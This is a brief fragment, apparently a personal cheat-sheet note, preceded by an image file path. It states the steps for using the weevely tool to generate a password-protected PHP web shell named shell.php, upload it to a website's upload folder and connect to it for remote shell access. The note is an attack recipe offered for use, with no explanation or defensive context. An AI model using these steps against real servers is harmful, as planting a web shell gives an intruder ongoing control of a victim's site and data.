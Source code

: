weevely - generating reverses shell, generate 122345 shell.php, then http://somepage.com/upload/shell.php 122345


